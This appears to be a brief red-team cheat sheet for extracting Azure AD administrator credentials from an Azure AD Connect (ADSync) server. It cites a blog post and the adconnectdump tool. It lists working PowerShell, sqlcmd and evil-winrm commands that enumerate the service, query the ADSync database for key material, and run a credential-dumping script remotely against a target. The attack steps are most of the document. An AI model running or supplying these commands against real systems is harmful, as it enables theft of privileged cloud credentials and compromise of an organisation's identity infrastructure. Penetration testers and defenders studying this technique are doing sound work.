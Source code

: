 ### Resource: https://blog.xpnsec.com/azuread-connect-for-redteam/

### Service Name: ADSync

### Tools: https://github.com/dirkjanm/adconnectdump

### STEPS:

#### 1) Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync (Enumerate the service instance using the registry)

#### 2) Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force (Obtain the file and product version)

#### 3) sqlcmd -S HOSTNAME -Q "use ADsync; select instance_id,keyset_id,entropy from mms_server_configuration" (Query the values that you might need to add to the script corresponding to your use case) (Optional)

#### 4) evil-winrm -i IP_ADDRESS -u USERNAME -p "PASSWORD" -s . adconnect.ps1 (Run the powershell script against the target to extract the Azure Admin credentials)
